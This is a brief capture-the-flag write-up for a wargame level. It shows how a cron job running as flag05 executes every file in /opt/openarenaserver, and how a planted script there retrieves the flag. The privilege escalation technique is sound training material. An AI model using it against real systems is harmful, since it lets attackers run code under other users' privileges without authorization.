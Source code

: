 After logging in as user level05, I received a message: 'You have a new mail.'

I then utilized the 'find' command to search for any file or directory with the name 'mail/level05/flag05.'
In /var/mail/level05, I discovered a crontab file:

```plaintext
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This crontab is set to execute the command 'sh /usr/sbin/openarenaserver' every 2 minutes with the user flag05.

Examining /usr/sbin/openarenaserver, I found the following script:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

This script runs every program in /opt/openarenaserver and removes them afterward.
Taking advantage of this, I created a script at /opt/openarenaserver/test:

```bash
#!/bin/sh
getflag > /tmp/flag
```

After waiting for 2 minutes, I retrieved the flag from /tmp/flag.